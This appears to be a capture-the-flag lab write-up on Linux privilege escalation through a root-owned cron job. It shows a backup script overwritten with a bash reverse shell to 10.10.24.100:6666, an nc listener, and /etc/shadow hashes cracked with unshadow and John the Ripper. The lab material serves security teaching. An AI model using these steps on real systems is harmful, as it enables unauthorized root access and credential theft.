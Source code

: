 # Cron jobs

Cron jobs are scheduled tasks that execute scripts or binaries at specified times, running with the privileges of their owners rather than the current user. While properly configured cron jobs are generally secure, they can become a vector for privilege escalation under certain conditions.

The concept is straightforward: if a cron job runs with root privileges and we can modify the script it executes, we can potentially run our own script with root access.

Cron job configurations are stored in crontabs (cron tables), which allow users to see when tasks are scheduled to run. Each user has their own crontab file, enabling them to schedule tasks regardless of whether they are logged in. The objective is to identify a cron job set by the root user and manipulate it to execute our script, preferably a shell.



### How many user-defined cron jobs can you see on the target system?

Use the following command to list the cron jobs:

```bash
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

In can see in total of four cron jobs.

### What is the content of flag5.txt?

The flag5.txt is located in /home/ubuntu, but we don't have permissions to see it's content with the current user:

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Let's modify the current backup.sh:

```bash
#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*
```

Into a reverse shell with the IP of our target machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.24.100/6666 0>&1
```

Make the file executable:

```bash
chmod +x backup.sh
```

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We setup our listener in the attack machine, and within a minute we should receive a connection:

```bash
nc -nlvp 6666
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Let's move to **/home/ubuntu** and look of the content of the flag5.txt

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

### What is the Matt's password?

**Step 1: Copy /etc/passwd and /etc/shadow to the attack machine**

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

**Step 2: Crack the hash**

Use unshadow to combine both files

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

And then use John the Ripper to Crack the hash:

```bash
john passwords.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

And we successfully found matt's password!
